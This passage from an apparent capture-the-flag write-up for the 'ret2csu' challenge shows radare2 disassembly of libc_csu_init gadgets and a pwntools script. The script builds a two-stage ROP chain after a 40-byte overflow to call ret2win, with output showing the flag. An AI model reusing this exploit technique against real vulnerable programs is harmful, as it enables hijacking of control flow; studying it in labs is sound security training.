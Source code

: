 ```python
│           0x004006a2      pop   r15
└           0x004006a4      ret
'''
#Determine the loop values for conditional branch
'''
╎│          0x00400689      call  qword [r12 + rbx*8]
│      ╎│   0x0040068d      add   rbx, 1
│      ╎│   0x00400691      cmp   rbp, rbx
│      └──< 0x00400694      jne   0x400680
'''

stage1 = pop_rbx_rbp_r12_r13_r14_r15_addr
stage1 += pwn.p64(0)   #set RBP=0
stage1 += pwn.p64(1)   #set RBX=1
stage1 += dereference_pointer #set R12
stage1 += arg1   #R13
stage1 += arg2   #R14
stage1 += arg3   #R15
stage1 += stage2_addr
stage1 += pwn.p64(0)*7   #adjust the stack

#stage2
'''
   ┌──>     0x00400680      mov   rdx, r15
│      ╎│   0x00400683      mov   rsi, r14
│      ╎│   0x00400686      mov   edi, r13d
│      ╎│   0x00400689      call  qword [r12 + rbx*8]
'''

stage2 = pop_rdi
stage2 +=arg1
stage2 +=ret2win_addr

payload = b"A"*32
payload += b"B"*8
payload += b"" .join([
    stage1,
    stage2
    ])

io.writeafter('>', payload)
pwn.info(io.recvall().decode())
```

Running the code above we get correct flag

```bash
vx@archie:ret2csu$ python3 xpl.py
[+] Starting local process './ret2csu': pid 18869
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Receiving all data: Done (45B)
[*] Process './ret2csu' stopped with exit code 0 (pid 18869)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
